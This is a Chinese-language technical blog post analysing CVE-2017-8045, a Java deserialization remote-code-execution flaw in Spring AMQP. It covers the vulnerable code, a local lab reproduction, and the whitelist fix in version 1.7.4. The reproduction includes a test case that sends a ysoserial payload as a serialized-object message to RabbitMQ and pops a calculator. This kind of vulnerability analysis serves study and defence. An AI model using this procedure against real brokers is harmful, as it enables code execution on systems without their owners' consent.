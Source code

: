 ## Spring AMQP远程代码执行漏洞(CVE-2017-8045)分析

> 最近国外研究人员先后爆出Spring Data REST远程代码执行漏洞(CVE-2017-8046)和Spring AMQP远程代码执行漏洞(CVE-2017-8045)，CVE-2017-8046关注的人比较多，这里对CVE-2017-8045进行简单分析

### 漏洞原因

在Spring AMQP的Message类中，文件路径为spring-amqp/src/main/java/org/springframework/amqp/core/Message.java。getBodyContentAsString方法中将接收到的消息进行反序列化操作，从而导致任意代码执行。代码如下:

```
private String getBodyContentAsString() {
		if (this.body == null) {
			return null;
		}
		try {
			String contentType = (this.messageProperties != null) ? this.messageProperties.getContentType() : null;
			if (MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT.equals(contentType)) {
				return SerializationUtils.deserialize(this.body).toString();
			}
	......
	}
```
可以看到这里如果要触发漏洞，其中一个条件是要将请求的ContentType设置为application/x-java-serialized-object。

```
public static final String CONTENT_TYPE_SERIALIZED_OBJECT = "application/x-java-serialized-object";
```

### 代码分析
先分析存在漏洞的代码版本[spring-amqp-1.7.3.RELEASE](https://github.com/spring-projects/spring-amqp)，整个项目代码中共有两处提供反序列化方法的类，分别是SerializerMessageConverter类和SerializationUtils类。

其中SerializerMessageConverter继承了WhiteListDeserializingMessageConverter类并实现了反序列化方法deserialize，代码如下：

```
private Object deserialize(ByteArrayInputStream inputStream) throws IOException {
		try {
			ObjectInputStream objectInputStream = new ConfigurableObjectInputStream(inputStream,
					this.defaultDeserializerClassLoader) {

				@Override
				protected Class<?> resolveClass(ObjectStreamClass classDesc)
						throws IOException, ClassNotFoundException {
					Class<?> clazz = super.resolveClass(classDesc);
					checkWhiteList(clazz);
					return clazz;
				}

			};
			return objectInputStream.readObject();
		}
		catch (ClassNotFoundException ex) {
			throw new NestedIOException("Failed to deserialize object type", ex);
		}
	}
```

上面代码可以看到在deserialize函数中hook了objectInputStream的resolveClass方法并调用WhiteListDeserializingMessageConverter类的checkWhiteList方法对反序列化的类进行白名单检查，如果反序列化的类不在白名单就抛出异常。WhiteListDeserializingMessageConverter类中同时实现了setWhiteListPatterns方法来设置反序列化的白名单。但在1.7.3版本中并未见到任何地方使用该函数进行白名单设置，所以这个白名单控制还是依赖使用到spring-amqp的开发人员自行设置，如果开发人员不设置依旧可能存在反序列化漏洞。

在SerializationUtils类的反序列化方法中则未进行任何安全校验：

```
public static Object deserialize(byte[] bytes) {
		if (bytes == null) {
			return null;
		}
		try {
			return deserialize(new ObjectInputStream(new ByteArrayInputStream(bytes)));
		}
	......
	public static Object deserialize(ObjectInputStream stream) {
		if (stream == null) {
			return null;
		}
		try {
			return stream.readObject();
		}
		......
	}
```
而本次漏洞触发点getBodyContentAsString函数中调用的正是SerializationUtils的deserialize方法。

### 漏洞利用

Message类中toString方法调用了getBodyContentAsString函数，而该漏洞发现者介绍，该方法在代码中许多错误处理及日志记录中会调用到并给出了相关[demo](https://lgtm.com/blog/static/spring_amqp/Application.java)。该程序只允许接收JSON格式消息，此时使用ysoserial生成payload，并将 Content-Type设置为application/x-java-serialized-object，然后发送消息，因为demo程序只允许接收json格式消息，所以会触发异常，从而调用并将消息带入toString函数触发漏洞执行任意代码。

可以使用[spring-amqp-samples](https://github.com/spring-projects/spring-amqp-samples)中的demo，将Application中container方法中添加：

```
listenerAdapter.setMessageConverter(new Jackson2JsonMessageConverter());
```
在测试用例中修改发送消息格式：

```
public void test() throws Exception {

        InputStream in = new FileInputStream("testfile");
        ByteArrayOutputStream bytestream = new ByteArrayOutputStream();

        int ch;
        while((ch = in.read()) != -1) {
            bytestream.write(ch);
        }

        byte[] data = bytestream.toByteArray();
        Message message = MessageBuilder.withBody(data)
                .setContentType(MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT)
                .setMessageId("8045")
                .setHeader("foo", "test")
                .build();

        rabbitTemplate.convertAndSend(Application.queueName, message);
        receiver.getLatch().await(10000, TimeUnit.MILLISECONDS);
    }
```

安装RabbitMQ，mac下安装使用命令即可：
>brew install rabbitmq

运行RabbitMQ,并在浏览器打开localhost:5672看是否已运行，默认账号密码为guest。在resources目录创建application.properties文件，内容如下：

```
spring.rabbitmq.host=localhost
spring.rabbitmq.port=5672
spring.rabbitmq.username=guest
spring.rabbitmq.password=guest
spring.rabbitmq.virtualHost=
```
使用ysoserial生成payload文件,在pom依赖中添加commons-collections 3.1，接着调试运行即可进入到tosting函数，并弹出计算器：。
![详细图](http://xianzhi.aliyun.com/forum/attachment/thumb/Mon_1709/4_1250798584134789_633cbb47fad8add.png)
### 补丁分析

在修复版本以1.7.4为例，getBodyContentAsString中反序列化接口改为调用SerializerMessageConverter的fromMessage方法将AMQP消息转换为对象，并使用setWhiteListPatterns函数设置了允许被反序列化类的白名单，只允许反序列化java.util.*和java.lang.*开头的类：

```
static {
		SERIALIZER_MESSAGE_CONVERTER.setWhiteListPatterns(Arrays.asList("java.util.*", "java.lang.*"));
	}
```
详细见https://github.com/spring-projects/spring-amqp/commit/36e55998f6352ba3498be950ccab1d5f4d0ce655

### 参考

* https://lgtm.com/blog/spring_amqp_CVE-2017-8045
* http://www.cnvd.org.cn/webinfo/show/4247
* https://pivotal.io/security/cve-2017-8045
* https://jira.spring.io/browse/AMQP-766
